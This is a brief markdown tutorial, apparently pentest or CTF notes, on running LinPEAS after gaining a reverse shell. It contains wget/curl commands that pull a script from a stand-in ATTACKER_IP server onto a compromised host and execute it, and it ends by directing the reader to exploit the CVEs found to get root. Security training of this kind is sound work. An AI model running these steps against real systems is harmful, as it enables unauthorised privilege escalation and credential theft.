

# 🔍 LinPEAS Deployment (Post Reverse Shell)

After getting a reverse shell, the next step is **enumeration for privilege escalation**.

For this, we use **LinPEAS** — one of the best tools for finding misconfigurations and vulnerabilities in Linux systems.

---

## Step 1: Download LinPEAS (Attacker Machine)

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Or clone:

```bash
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/linPEAS
```

---

## Step 2: Start HTTP Server

```bash
python3 -m http.server 8000
```

Now the file is accessible at:

```bash
http://ATTACKER_IP:8000
```
here the attacker ip means our machines ip
---

## Step 3: Transfer to Target (Reverse Shell)

Inside the reverse shell:

```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```

If wget not available:

```bash
curl http://ATTACKER_IP:8000/linpeas.sh -o linpeas.sh
```

---

## Step 4: Give Permission

```bash
chmod +x linpeas.sh
```

---

## Step 5: Run LinPEAS

```bash
./linpeas.sh
```

---




---

## 🔎 What We Looking For

```bash
- SUID binaries
- Writable files
- Cron jobs
- Credentials
- Kernel CVEs
```

LinPEAS highlights important findings in **red/yellow**.

---

## Example Output (CVE Section)

```bash
══╣ Matched CVEs
CVE-2019-15666
CVE-2021-3493
CVE-2021-22555
CVE-2022-32250
```

---

## Final Step

From here:

* Search exploit for the CVE
* Compile and run
* Get root access 😈 if CVE Found

---

